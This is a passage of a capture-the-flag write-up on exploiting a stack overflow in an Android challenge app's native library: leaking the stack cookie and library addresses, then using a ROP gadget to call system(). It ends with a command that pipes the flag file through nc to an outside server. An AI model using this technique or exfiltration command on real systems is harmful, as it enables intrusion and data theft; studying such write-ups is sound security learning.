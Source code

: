 We have ourselves a stack overflow. Wew! 8 byte overflow to be more specific, which is the return address. That's RIP control right there bois!

A minor roadblock presents itself however:

```
result = __readfsqword(0x28u);
  if ( result == v8 )
```

This is a stack cookie check, however we have a stack leak through censorMyDogs, with which we can easily leak the stack cookie.

Now before we proceed, it is incredibly useful to be able to attach gdb to the running process. You can read how to do so [here](https://source.android.com/devices/tech/debug/gdb). We can attach the debugger before the censorMyCats function runs using javascript [sleep](https://stackoverflow.com/questions/951021/what-is-the-javascript-version-of-sleep), and inspect the state of the registers and stack when the execution reaches the stack cookie check, and the return instruction.

Stack cookie check state:

![](https://raw.githubusercontent.com/VoidMercy/CTFs/master/h1-702%20CTF/pic29.png)

We can see that the stack cookie is rax, which is0x2d1fdc01b526a10c. Searching for this value in the stack leak reveals that it is the 0x400th value.

Here is the return state:

![](https://raw.githubusercontent.com/VoidMercy/CTFs/master/h1-702%20CTF/pic30.png)

We can see that we control the return address, rbx, r14, and r15. We can also see that we only overflow up to the return address. This means we can only jmp to one gadget, so we need a ROP gadget which will take advantage of rbx, r14, and r15 to land us a shell. After scrolling through libc.so for a while looking for gadgets, I came upon this one:

```
0x000000000002af19: mov rdi, r14; call rbx;
```

This is perfect! rdi is the first argument for a x86_64 function call, and we can set rbx to system, landing us RCE. We can set rdi to the dest buffer in censorDogs, which we can make any command we want. One solution is just to send the flag to our server using:

```
cat /data/local/tmp/challenge5 | nc our_server our_port
```

To use this gadget, we will need a leak of libnative-lib.so and libc.so so we can find the dest buffer, the gadget, and system. Playing around in GDB reveals to us that we can leak libc at offset 0x178 from the stack leak, and libnative at offset 0x80 from the stack leak. Now we have all the puzzle pieces.

To summarize, here is the attack plan:
1. Leak the stack through censorMyDogs
2. Read stack cookie at offset 0x400
3. Read libc leak at offset 0x178
4. Read libnative leak at offset 0x80
5. Calculate addresses for the buffer, system, and the gadget
6. Send the ropchain which uses the gadget to call system("cat /data/local/tmp/challenge5 | nc our_server our_port")
